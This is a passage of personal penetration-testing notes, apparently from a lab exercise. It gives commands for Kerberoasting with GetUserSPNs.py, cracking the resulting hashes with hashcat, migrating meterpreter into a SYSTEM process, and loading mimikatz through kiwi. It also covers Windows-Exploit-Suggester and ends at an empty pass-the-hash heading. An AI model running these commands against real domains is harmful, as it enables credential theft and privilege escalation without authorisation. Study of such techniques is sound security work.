 Or

```
GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.117.212 -request
```

Find hashcat hash type

```
hashcat --1 help | grep Kerberos
hashcat -m 13100 hashes4.txt rockyou.txt -O
```

## Abusing Token Privileges For Windows Local Privilege Escalation

While using meterpreter

ps shows all of the running processes

```
meterpreter > migrate PID
to migrate to a higher authority process(ex: spoolsv.exe)

meterpreter > load kiwi
to load mimikatz
```

TODO: Good reads

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

## Windows-Exploit-Suggester

update the database

```
$ ./windows-exploit-suggester.py --update
```

install dependencies

(install python-xlrd, \$ pip install xlrd --upgrade)

feed it "systeminfo" input, and point it to the microsoft database

```
$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
```

[Windows-Exploit-Suggester GitHub](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

## Pass the hash attack
